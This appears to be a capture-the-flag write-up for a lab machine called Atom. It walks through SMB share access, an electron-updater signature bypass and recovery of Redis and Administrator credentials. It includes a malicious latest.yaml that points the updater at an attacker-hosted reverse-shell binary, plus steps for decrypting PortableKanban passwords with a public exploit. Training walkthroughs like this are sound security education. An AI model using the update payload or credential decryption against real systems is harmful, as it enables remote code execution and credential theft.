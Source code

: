 # Atom

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (3265).png" alt=""><figcaption></figcaption></figure>

There's a `redis` server running on the machine, and also WinRM for whatever reason. SMB Shares might be accessible on this server.

### SMB Shares

Using `smbmap`, there is one share that is readable even without credentials.

<figure><img src="../../../.gitbook/assets/image (547).png" alt=""><figcaption></figcaption></figure>

The Software\_Updates one is new. We can connect to it and see what are the files present.

<figure><img src="../../../.gitbook/assets/image (2978).png" alt=""><figcaption></figcaption></figure>

The PDF contained some useful information:

<figure><img src="../../../.gitbook/assets/image (2150).png" alt=""><figcaption></figcaption></figure>

We can place an update within this share's client folders, and then a user would run it. This is probably the way to gain a reverse shell.

### Electron

When checking the web portal, we see that it's a regular corporate website.

<figure><img src="../../../.gitbook/assets/image (3921).png" alt=""><figcaption></figcaption></figure>

There was a download button on the page, presumably to download the program used for this application. This would make us download a .exe file.

<figure><img src="../../../.gitbook/assets/image (3646).png" alt=""><figcaption></figcaption></figure>

We can actually open .exe files to find out what is within it.

<figure><img src="../../../.gitbook/assets/image (599).png" alt=""><figcaption></figcaption></figure>

When viewing the plugins directory, we would find an app.7z file which we can open to reveal the resources.

<figure><img src="../../../.gitbook/assets/image (1891).png" alt=""><figcaption></figcaption></figure>

We can take a look at the resources file to view the source code and stuff, and there we find more hints that this is a Electron application.

<figure><img src="../../../.gitbook/assets/image (2208).png" alt=""><figcaption></figcaption></figure>

We can dive further into the .asar file using `asar`.

<figure><img src="../../../.gitbook/assets/image (540).png" alt=""><figcaption></figcaption></figure>

Within the main.js file, we can find that `electron-updater` was imported within this application.

<figure><img src="../../../.gitbook/assets/image (2739).png" alt=""><figcaption></figcaption></figure>

### Signature Bypass

Searching for exploits for electron-updater led me to this website:

{% embed url="https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html" %}

In short, it's possible to bypass the signature checks that determine if an electron update is legitimate or not. This is done through altering the `latest.yaml` file. So, by bypassing this signature check, the updater would execute any malicious code we use.

This is in line with the information on the PDF we found earlier, telling us to place updates within the share for it to be executed. We can follow the PoC provided.

First, we can generate a quick reverse shell binary with `msfvenom`.

<figure><img src="../../../.gitbook/assets/image (278).png" alt=""><figcaption></figcaption></figure>

Afterwards, we need to change the name of this binary to have an `'` character within it. I named mine `v'rev.exe`. Then, we need to take the sha512 hash of this file and base64 encode it.

<figure><img src="../../../.gitbook/assets/image (2701).png" alt=""><figcaption></figcaption></figure>

Then, we can create the `latest.yaml` file to have a custom HTTP path for the update with the hash value. Afterwards, we can host the binary on a Python HTTP server.

```yaml
version: 2.2.3
files:
  - url: http://10.10.16.9/r'ev.exe
    sha512: <hash value>
    size: 7168     
path: http://10.10.16.9/r'ev.exe
sha512: <hash value>
releaseDate: '2022-03-14T11:17:02.627Z'
```

Upon creation, we would need to put this YAML file within the client directory of the share we accessed earlier.&#x20;

<figure><img src="../../../.gitbook/assets/image (1860).png" alt=""><figcaption></figcaption></figure>

After a while, our HTTP server would get a hit and our listener port would catch a reverse shell.

<figure><img src="../../../.gitbook/assets/image (4071).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (840).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Kanban Redis Creds

Within the user's Downloads folder, we can find a PortableKanban instance.

<figure><img src="../../../.gitbook/assets/image (1788).png" alt=""><figcaption></figcaption></figure>

Within the folder, we can find an encrypted password for the `redis` instance on the machine.

<figure><img src="../../../.gitbook/assets/image (2705).png" alt=""><figcaption></figcaption></figure>

Quick googling led me to an exploit, which allows for us to decrypt the passwords using DES.

{% embed url="https://www.exploit-db.com/exploits/49409" %}

I used CyberChef to decrypt the password using the key and IV extracted from the exploit.

<figure><img src="../../../.gitbook/assets/image (962).png" alt=""><figcaption></figcaption></figure>

After finding this password, we can use `redis-cli` to login to the redis instance.

### Redis Creds

Logging in:

<figure><img src="../../../.gitbook/assets/image (1213).png" alt=""><figcaption></figcaption></figure>

We can check all the keys present on this machine:

<figure><img src="../../../.gitbook/assets/image (2626).png" alt=""><figcaption></figcaption></figure>

The user key with some kind of GUID was the first I checked. We can do so with `get <name>`. This revealed another encrypted password for the Administrator.

<figure><img src="../../../.gitbook/assets/image (2695).png" alt=""><figcaption></figcaption></figure>

We can decrypt this using the same CyberChef configurations.

<figure><img src="../../../.gitbook/assets/image (3694).png" alt=""><figcaption></figcaption></figure>

Then, we can use `evil-winrm` to log in as the administrator.

<figure><img src="../../../.gitbook/assets/image (3449).png" alt=""><figcaption></figcaption></figure>
